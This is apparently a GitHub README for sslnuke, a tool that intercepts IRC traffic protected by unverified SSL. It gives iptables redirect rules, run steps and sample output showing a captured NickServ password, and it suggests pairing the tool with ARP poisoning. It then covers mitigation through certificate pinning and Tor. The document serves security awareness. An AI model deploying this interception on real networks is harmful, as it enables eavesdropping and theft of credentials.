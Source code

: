 # sslnuke -- SSL without verification isn't secure!
--------------------------------------

We have all heard over and over that SSL without verification is not secure. 
If an SSL connection is not verified with a cached certificate, it can easily be
hijacked by any attacker. So in 2013, one would think we had totally done away with this
problem. Browsers cache certificates and very loudly warn the user when a site has
offered up a self-verified certificate and should not be trusted, browser vendors have
pretty much solved this problem. However, HTTPS is not the only protocol that uses
SSL. Unfortunately, many clients for these other protocols do not verify by default and even
if they did, there is no guarantee of secure certificate transfer. After all, how many 
people are willing to pay $50 for an SSL certificate for their FTPS server? 

A common protocol that uses SSL but is rarely verified is IRC. Many IRC clients
verify by default, but most users will turn this off because IRC servers administrators
tend not to purchase legitimate SSL certificates. Some popular clients even leave
SSL verification off by default (IRSSI, for example). We already know that this is 
unwise, any attacker between a user and the IRC server can offer an invalid
certificate and decrypt all of the user's traffic (including possibly sensitive
messages). Most users don't even consider this fact when connecting to an
SSL "secured" IRC server. 

The purpose of sslnuke is to write a tool geared towards decrypting and intercepting
"secured" IRC traffic. There are plenty of existing tools that intercept SSL traffic already,
but most of these are geared towards HTTP traffic. sslnuke targets IRC directly in order to 
demonstrate how easy it is to intercept "secured" communications. sslnuke usage is simple.

## Usage

First, add a user account for sslnuke to run as and add iptables rules to redirect traffic
to it:

    # useradd -s /bin/bash -m sslnuke
    # grep sslnuke /etc/passwd
    sslnuke:x:1000:1000::/home/sslnuke:/bin/bash
    # iptables -t nat -A OUTPUT -p tcp -m owner ! --uid-owner 1000 -m tcp \
      --dport 6697 --tcp-flags FIN,SYN,RST,ACK SYN -j REDIRECT --to-ports 4444

Finally, login as sslnuke, build, and run sslnuke:

    # su -l sslnuke
    # cd sslnuke
    # make
    # ./sslnuke

Run an IRC client and login to your favorite IRC network using SSL,
IRC messages will be printed to stdout on sslnuke.

    [*] Received connection from: 192.168.0.5:58007
    [*] Opening connection to: 1.1.1.1:6697
    [*] Connection Using SSL!
    [*] irc.com -> AUTH (1.1.1.1): *** Looking up your hostname...
    [*] irc.com -> AUTH (1.1.1.1): *** Found your hostname
    [*] irc.com -> victim (1.1.1.1): *** You are connected to irc.vps-heaven.com with TLSv1.2-AES256-GCM-SHA384-256bits
    [*] 192.168.0.5 -> nickserv (192.168.0.5): id hello
    [*] NickServ!services@irc.com -> victim (1.1.1.1): Password accepted - you are now recognized.

sslnuke will automatically detect a client using SSL and determine whether or not
to use SSL. The code could also be easily modified to show web site passwords or
FTP data, anything using SSL. To attack users on a network, sslnuke can be used
in conjunction with an ARP poisoning tool, such as the one found at [Blackhat Library](http://www.blackhatlibrary.net/Python#Scapy)
or it can be deployed on a gateway.

A video demonstration of sslnuke can be seen at [ascii.io](http://ascii.io/a/5370).

## Mitigation

Now on to the important part, how do we verify SSL connections? The first step is to
transfer the SSL certificate over an alternative medium, the best way would be to
have the administrator directly give you the certificate. However, if this is not possible,
openssl can download the certificate from the server:

    # openssl s_client -showcerts -connect irc.com:6697 </dev/null

Save the certificate into ~/.irssi/ssl/irc.com.crt. It is best to run the command from a 
computer on a different network than yours to prevent this from being intercepted. Next, to
configure IRSSI to use the certificate, save a network:

    /network add irc
    /server add -ssl_cafile ~/.irssi/ssl/irc.com.crt -network irc -port 6697 irc.com

If IRSSI ever gets an invalid certificate, it will warn you and disconnect immediately. However,
for the truly paranoid, a Tor hidden service or VPN should be used. To configure automatic
Tor hidden service redirection on Linux one can run the following commands:

    # echo "VirtualAddrNetwork 10.192.0.0/10" >> /etc/tor/torrc
    # echo "AutomapHostsOnResolve 1" >> /etc/tor/torrc
    # echo "TransPort 9040" >> /etc/tor/torrc
    # echo "DNSPort 5353" >> /etc/tor/torrc
    # killall -HUP tor
    # iptables -t nat -A OUTPUT -p tcp -d 10.192.0.0/10 -j REDIRECT --to-ports 9040
    # iptables -t nat -A OUTPUT -p udp --dport 53 -j REDIRECT --to-ports 5353
    # ncat xxxxxxxxxxxxxxx.onion 6667
    :irc.com NOTICE AUTH :*** Looking up your hostname...
    :irc.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    ^C

Ultimately, IRC clients should use an SSH-style key verification. On first connect, present the
certificate fingerprint to the user and force the user to confirm it and then cache the certificate.
If it changes the next time, do not allow the connection.

## Source

The source code can be downloaded on [Github](https://github.com/jtripper/sslnuke).

